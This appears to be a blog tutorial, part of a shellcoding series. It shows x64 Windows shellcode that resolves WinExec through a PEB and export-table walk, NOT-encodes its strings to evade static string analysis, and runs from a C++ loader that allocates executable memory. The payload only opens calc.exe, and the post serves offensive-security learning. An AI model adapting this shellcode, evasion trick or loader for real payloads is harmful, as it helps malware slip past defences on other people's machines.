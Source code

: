 ```yaml
---
title:  "x64 Assembly & Shellcoding 101 - Part 4"
header:
  teaser: "/assets/images/asm-part4.png"
categories:
  - Shellcoding
  - Assembly
  - Debugging
tags:
  - Shellcoding
  - x64
  - x64dbg
  - '2024'
  - nasm
  - assembly
  - debugging
---
```


Hey all!  This will be a shorter post today, so I'll get right to it.  Let's talk shellcode basic encoding functionality built in to x64 assembly instructions.  What we're really talking about here is bitwise operations.  I'm going to use the `NOT` bitwise command to 'encode' all strings within our assembly code. This way, it's harder for static analysis efforts to succeed when searching for strings 😸 I took the liberty of trimming up the code we've been using to execute calc.exe using WinExec.  I'll likely go back and retroactively clean up some code in the previous posts in this series at some point too.  

Here's the portion of code with the `NOT` instruction added after the string.  I have already performed a NOT against the original unencoded string so these `NOT` instructions are to perform decoding operations.
```nasm
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax

mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
not rax
```
**and the full code below:**
```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -o x64findkernel32.exe x64findkernel32.obj
BITS 64
SECTION .text
global main
main:
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0
mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr
mov rsi,[rax+0x10]       ;PEB.Ldr->InMemOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]      ;kernel32.dll base address
mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov rcx, r10                  ; Set loop counter
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax
shl rax, 0x8
shr rax, 0x8
push rax
mov rax, rsp	
add rsp, 0x8
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

**Here's a lame trick you can use if you want to decode / encode using `NOT` without having to use assembly.  Use the calculator!  Yes, we're going to use the calculator. I can't seem to get enough of it, it seems. 😸**

![image](https://github.com/user-attachments/assets/0c1103af-9a3d-44d6-99bb-32ec86422c1b)

**This gives us the original, unencoded string:**

![image](https://github.com/user-attachments/assets/8c6c934c-198e-4e88-805b-704b9e78ba96)

**This is nice because you can quickly decode and encode your strings to make sure everything is in working order before committing to your code.  As always, we want to strip this down to just shellcode, make sure it has no NULLs, and execute it!  We'll start with the basic objdump output to work off of:**

```nasm
winexec_nonulls.o:     file format pe-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:	48 83 ec 28          	sub    $0x28,%rsp
   4:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
   8:	48 31 c9             	xor    %rcx,%rcx
   b:	65 48 8b 41 60       	mov    %gs:0x60(%rcx),%rax
  10:	48 8b 40 18          	mov    0x18(%rax),%rax
  14:	48 8b 70 10          	mov    0x10(%rax),%rsi
  18:	48 8b 36             	mov    (%rsi),%rsi
  1b:	48 8b 36             	mov    (%rsi),%rsi
  1e:	48 8b 5e 30          	mov    0x30(%rsi),%rbx
  22:	49 89 d8             	mov    %rbx,%r8
  25:	8b 5b 3c             	mov    0x3c(%rbx),%ebx
  28:	4c 01 c3             	add    %r8,%rbx
  2b:	48 31 c9             	xor    %rcx,%rcx
  2e:	66 81 c1 ff 88       	add    $0x88ff,%cx
  33:	48 c1 e9 08          	shr    $0x8,%rcx
  37:	8b 14 0b             	mov    (%rbx,%rcx,1),%edx
  3a:	4c 01 c2             	add    %r8,%rdx
  3d:	44 8b 52 14          	mov    0x14(%rdx),%r10d
  41:	4d 31 db             	xor    %r11,%r11
  44:	44 8b 5a 20          	mov    0x20(%rdx),%r11d
  48:	4d 01 c3             	add    %r8,%r11
  4b:	4c 89 d1             	mov    %r10,%rcx
  4e:	48 b8 a8 96 91 ba 87 	movabs $0x6f9c9a87ba9196a8,%rax
  55:	9a 9c 6f 
  58:	48 f7 d0             	not    %rax
  5b:	48 c1 e0 08          	shl    $0x8,%rax
  5f:	48 c1 e8 08          	shr    $0x8,%rax
  63:	50                   	push   %rax
  64:	48 89 e0             	mov    %rsp,%rax
  67:	48 83 c4 08          	add    $0x8,%rsp

000000000000006b <kernel32findfunction>:
  6b:	67 e3 16             	jecxz  84 <FunctionNameNotFound>
  6e:	31 db                	xor    %ebx,%ebx
  70:	41 8b 1c 8b          	mov    (%r11,%rcx,4),%ebx
  74:	4c 01 c3             	add    %r8,%rbx
  77:	48 ff c9             	dec    %rcx
  7a:	4c 8b 08             	mov    (%rax),%r9
  7d:	4c 39 0b             	cmp    %r9,(%rbx)
  80:	74 03                	je     85 <FunctionNameFound>
  82:	75 e7                	jne    6b <kernel32findfunction>

0000000000000084 <FunctionNameNotFound>:
  84:	cc                   	int3

0000000000000085 <FunctionNameFound>:
  85:	ff c1                	inc    %ecx
  87:	4d 31 db             	xor    %r11,%r11
  8a:	44 8b 5a 1c          	mov    0x1c(%rdx),%r11d
  8e:	4d 01 c3             	add    %r8,%r11
  91:	45 8b 3c 8b          	mov    (%r11,%rcx,4),%r15d
  95:	4d 01 c7             	add    %r8,%r15
  98:	48 31 c0             	xor    %rax,%rax
  9b:	50                   	push   %rax
  9c:	48 b8 9c 9e 93 9c d1 	movabs $0x9a879ad19c939e9c,%rax
  a3:	9a 87 9a 
  a6:	48 f7 d0             	not    %rax
  a9:	50                   	push   %rax
  aa:	48 89 e1             	mov    %rsp,%rcx
  ad:	48 31 d2             	xor    %rdx,%rdx
  b0:	48 ff c2             	inc    %rdx
  b3:	48 83 ec 30          	sub    $0x30,%rsp
  b7:	41 ff d7             	call   *%r15
```

**Let's get only the shellcode:**

**nasm -fwin64 winexec_nonulls.asm -o winexec_nonulls.o**

**for i in $(objdump -D winexec_nonulls.o | grep "^ " | cut -f2); do echo -n "\x$i" ; done**

**Now, pop it into your c++ program and let er rip!**

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41"
"\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36"
"\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31"
"\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01"
"\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3"
"\x4c\x89\xd1\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xf7"
"\xd0\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83"
"\xc4\x08\x67\xe3\x16\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48"
"\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74\x03\x75\xe7\xcc\xff\xc1"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d"
"\x01\xc7\x48\x31\xc0\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87"
"\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\x31\xd2\x48\xff\xc2\x48"
"\x83\xec\x30\x41\xff\xd7";


int main() {

    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
**Forgot to mention, if you compile the exe and search for strings, you won't find winexec or calc, well...you'll see winexec_nonull since that's the filename, but not `WinExec` and `calc.exe`.  In a real world setting I'd change that. 😄  Check it out:**

![image](https://github.com/user-attachments/assets/8fcc5f09-2fd0-4905-9d31-e49b87f8b727)

And that's a wrap folks!  Maybe eventually I'll get around to moving beyond WinExec and onto other apis lol.  It'll happen...but until then take it easy!
